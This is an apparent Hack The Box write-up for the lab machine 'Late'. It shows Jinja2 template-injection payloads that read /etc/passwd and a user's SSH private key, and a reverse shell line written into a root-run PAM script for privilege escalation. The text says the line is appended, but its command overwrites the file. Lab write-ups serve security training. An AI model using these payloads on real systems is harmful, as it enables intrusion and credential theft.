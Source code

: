```yaml
---
layout: single
title: Late - Hack The Box
excerpt: "Late is a easy Linux machine, we start this machine by going into the web page, there we will find a redirect to images.late.htb. On this page we will find that its a image to text converter with flask meaning that the software behing it is Jinja2. We found a SSTI on the file upload that let you read the id_rsa of svc_acc. Finally we are able to get root by using the file ssh-alert.sh "
date: 2023-02-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-Late/Late-Logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - Linux
  - SSTI 
  - Jinja2
  - Flask 

---
```


![](/assets/images/htb-writeup-Late/Late-Logo.png)

### Machine IP = 10.10.11.156

## Port Scan

We start with the NMAP scan:
* sudo nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.156

```
# Nmap 7.93 scan initiated Tue Jan 31 15:14:48 2023 as: nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up, received echo-reply ttl 63 (0.056s latency).
Scanned at 2023-01-31 15:14:49 EST for 117s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28394698171e461a1ea1ab3b9a577048 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration 

From the scan the clear option is to go to the web server (port 80) and after investigating it we are able to find a redirect link on it

![](/assets/images/htb-writeup-Late/Late-1.png)

Then we need to add ***images.late.htb*** to /etc/hosts and now we are able to get to the page:

![](/assets/images/htb-writeup-Late/Late-2.png)

We find a new page that is a image to text converter with [flask](https://pythonbasics.org/what-is-flask-python/) thus most likely this is running on Jinja2. If we look online for flask and jinja2 exploits we can see that the first thing that pop-up is SSTI.

## Gaining foothold

We start checking the photo to text conversion and it does change whatever we see on the picture. Now we try to upload a new picture writting the following basic SSTI:

``` {{7*7}}```


When we download the ***result.txt*** file we can see that the basic injection of 7 * 7 is "processed" and its showing the result of the injection

![](/assets/images/htb-writeup-Late/Late-3.png)

after trying multiple injections, multiple backgrounds and multiple fonts to make the injection work we are able to read the **/etc/passwd** file

```{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}```


![](/assets/images/htb-writeup-Late/Late-4.png)

From the same we can we that the only possible user appart from root that we can attack is **svc_acc**

![](/assets/images/htb-writeup-Late/Late-5.png)


Now that we know the user we can try to get its id_rsa key in case it is created

```{{get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read()}}```

![](/assets/images/htb-writeup-Late/Late-6.png)


with the id_rsa key and the username for sure we can now login to the machine using the **-i** flag on ssh, and we are able to get **user.txt** flag.
![](/assets/images/htb-writeup-Late/Late-7.png)


## Privilege Escalation 

We start looking for any interesting files that might belong to svc_acc that could lead us to some sort of privilege escalation 
```
find / -user svc_acc 2>/dev/null | grep -v -E 'sys|proc|run|home' 
```
![](/assets/images/htb-writeup-Late/Late-8.png)

![](/assets/images/htb-writeup-Late/Late-9.png)

if we look at the file ssh-alert.sh it is basically a file in which the recipient is ROOT and investigating about it all that is is going to do is to send an alert to the user ***when a login or a logout***  is happening on the system.

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

To get root access/privileges what we need to do is to add a reverse bash shell line to the existing ssh-alert.sh file and then trigger the alert. First we add the command at the end of the file.

```
echo 'sh -i >& /dev/udp/10.10.14.5/443 0>&1' > /usr/local/sbin/ssh-alert.sh
```

now we trigger the alert and our open nc should has root sheell

![](/assets/images/htb-writeup-Late/Late-10.png)
